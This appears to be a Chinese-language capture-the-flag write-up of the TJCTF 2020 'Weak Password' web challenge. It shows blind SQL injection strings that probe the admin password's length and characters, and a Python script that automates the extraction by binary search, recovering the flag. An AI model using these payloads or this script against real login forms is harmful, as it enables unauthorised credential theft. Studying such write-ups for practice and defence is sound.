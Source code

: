 ```yaml
---
title: TJCTF 2020 - Weak Password (Web)
date: 2020-05-29 11:37:12
categories: 
- Security
tags:
- CTF
- TJCTF 2020
- Web Challenge
---
```


Writeups 搬自 [MacacaHub TJCTF 2020 Writeups](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/readme.md)

這題雖然叫Weak Password，但我當時遇到真的戳不出來呢 ; w ;

最後賽後隊友提點才知道原來是**Blind SQL injection**，平常我只拿`' or 1=1 -- `戳戳根本是小兒科ww

<!--more-->

## Description

It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this [site](https://weak_password.tjctf.org/). He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

![](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/01.png?raw=true)

## Solution

標題同樣為**Weak Password**，T貓盃只有`admin`:`admin`，這裡反而沒有這麼簡單XD

從題目給定`username`為`admin`，以及從`source code`可以看到`SQL語法`以及一些欄位資訊，我們可以猜到這題要用**Blind SQL injection**，一些基本的猜法可以參考[此篇](https://www.twblogs.net/a/5d0d7134bd9eee1ede0450b0)，當然也可以從網頁把`password`每個字元慢慢猜出來，但身為未來工程屍... 還是寫個Code吧 : )

![](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/02.png?raw=true)

How to Guess ?

透過`SQL injection`並利用登入結果判斷是否成功，想辦法從`username`撈出我們想要的資訊。

{% gp 2-2 %}
![](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/03.png?raw=true)
![](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/04.png?raw=true)
{% endgp %}

例如，猜`password`長度：

`admin' and length(password) > 13 -- ` --> success

`admin' and length(password) > 14 -- ` --> fail

`admin' and length(password) = 14 -- ` --> success

可以猜到`password`長度為14。
<br>

又例如，猜`password`第一個字元：

`admin' and unicode(substr(password, 1)) > unicode('a') -- ` --> success

`admin' and unicode(substr(password, 1)) > unicode('b') -- ` --> fail

`admin' and unicode(substr(password, 1)) = unicode('b') -- ` --> success

可以猜到`password`第一個字元為`b`。

<br>
再來就是寫Code了，可以搭配 **Binary search** 加速搜尋~

然後用回傳的request長度判斷結果是否成功。

{% codeblock solve.py lang:python %}
import requests
import string

# Send request and get result
def inject(n, opr, char):
    url = 'https://weak_password.tjctf.org/login'
    payload = {"username": "admin' and unicode(substr(password, {})) \\
    {} unicode('{}')-- ".format(n, opr,char), "password": "123"}
    r = requests.post(url, data=payload)
    return True if len(r.text)==1842 else False #1842:success

res = ""
li = list(string.digits + string.ascii_lowercase)
for i in range(1, 20):
    
    l = 0
    r = len(li) - 1

    # end up binary search if it can't checkout any character
    if inject(i, '>', li[0]) == False:
        print('password: '+res)
        break

    while l <= r:
        mid = (l +(r+1)) // 2
        #print(l, r, mid)
        if inject(i, '=', li[mid]):
            res = res + li[mid]
            break
        elif inject(i, '>', li[mid]):
            l = mid
        elif inject(i, '<', li[mid]):
            r = mid
        else:
            break
    print(res)
{% endcodeblock %}

### Result
<img src="https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/05.png?raw=true" width="500" align="center"/>

> tjctf{blindsqli14519}
